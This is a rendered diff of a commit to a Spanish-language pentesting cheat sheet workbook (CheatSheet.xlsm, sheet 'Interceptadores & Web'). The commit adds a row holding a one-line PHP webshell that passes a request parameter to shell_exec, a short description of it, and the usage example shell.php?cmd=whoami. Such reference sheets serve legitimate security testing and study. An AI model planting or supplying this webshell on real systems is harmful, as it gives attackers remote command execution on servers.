

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-F38: (empty)
+F38: <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
-F38:H38 fill: none
+F38:H38 fill: #D9D9D9
-G38: (empty)
+G38: Webshell PHP en la que se le pasan comandos a ejecutar
-H38: (empty)
+H38: shell.php?cmd=whoami
```
Also changed, not shown: sheet Enumeracion & Escaneos, sheet Explotacion & Post-Explotacion, sheet General, sheet Inyecciones.
